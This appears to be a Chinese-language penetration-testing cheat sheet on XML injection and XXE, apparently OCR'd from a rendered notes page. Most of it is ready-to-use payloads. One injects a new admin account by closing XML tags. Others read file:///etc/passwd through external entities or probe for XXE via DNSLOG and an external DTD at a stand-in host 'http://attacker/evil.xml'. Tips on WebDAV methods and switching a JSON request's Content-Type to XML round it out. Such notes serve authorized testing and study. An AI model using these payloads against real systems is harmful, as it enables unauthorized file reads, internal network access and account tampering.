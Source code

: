 	XML设计的宗旨是传输数据，而非显示数据
	XXE=XML外部实体注入、XML=可扩展标记语言
	Xml文件声明
	<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
	DTD为XML的文档类型定义
	引入外部DTD
	<!DOCTYPE 根元素 SYSTEM "filename">
	参数实体+外部实体
	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE test [
		<!ENTITY % file SYSTEM "file:///etc/passwd">
		%file;
	]>
 #### XML注入
	闭合标签，改写xml文件，用户可控，有拼接代码
	<?xml version="1.0" encoding="utf-8"?>
	<manager>
		<admin id="1">
    <username>admin</username>
    <password>admin</password>
    </admin>
    <admin id="2">
    <username>root</username>
    <password>root</password>
    </admin>
	</manager>
	若是password可控，拼接代码形成注入
	admin </password></admin><admin id="3"><name>hack</name><password>hacker</password></admin>
 #### XXE
	https://github.com/AonCyberLabs/xxe-recursive-download
	程序解析XML输入时，未禁止外部实体的加载，造成任意文件读取、命令执行、内网端口扫描、攻击内网网站、发起Dos攻击等危害
 ##### 判断
	回显路径
		<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "test">%remote;]>
	DNSLOG
		http://www.dnslog.cn/
	<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY dtd SYSTEM "http://xxx.dnslog.cn/xxe">]>
	<xxe>&dtd;</xxe>
	Webdav
		存在webdav可使用PROPPATCH、PROPFIND、 LOCK等请求方法接受xml输入形成xxe
	Wsdl使用AWVS测试
 ##### 挖掘
	如遇与xml交互的地方
	<?xml version="1.0" encoding="UTF-8"?> 
	<!DOCTYPE ANY [  
	<!ENTITY test "this is test"> 
	]> 
	<root>&test;</root>
	看是否输出
	检查是否支持外部实体
	<?xml version="1.0" encoding="UTF-8"?> 
   	<!DOCTYPE ANY [  
   	<!ENTITY % foo SYSTEM "http://attacker/evil.xml"> 
   	%foo;
	]> 
	查看你的服务器是否有请求
	JSON content-type XXE
	修改Content-Type: application/xml
	X-Requested-With: XMLHttpRequest
	<?xml version="1.0" encoding="UTF-8" ?>
	<!DOCTYPE netspi [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>